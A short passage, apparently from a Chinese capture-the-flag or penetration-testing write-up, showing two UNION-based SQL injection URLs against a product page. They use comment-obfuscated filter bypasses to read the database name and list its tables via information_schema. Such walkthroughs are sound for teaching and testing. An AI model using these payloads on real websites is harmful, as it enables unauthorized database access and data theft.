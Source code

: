 字段数是6

当前数据库

```
http://172.16.8.8/product.php?id=12'/*%!AA*/union/*%!AA*/select/*%!AA*/1,database/*%!AA*/(),3,4,5,6 -- -
```

![](/images/2018-half-year-wp/6.png)

查表，将数据库名转换成16进制：

```
http://172.16.8.8/product.php?id=12'/*%!AA*/union/*%!AA*/select/*%!AA*/1,table_name,3,4,5,6/*c'*/from/*c'*/information_schema.tables/*%!AA*/where/*%!AA*/table_schema=0x736D61727473686F70-- -
```

![](/images/2018-half-year-wp/7.png)
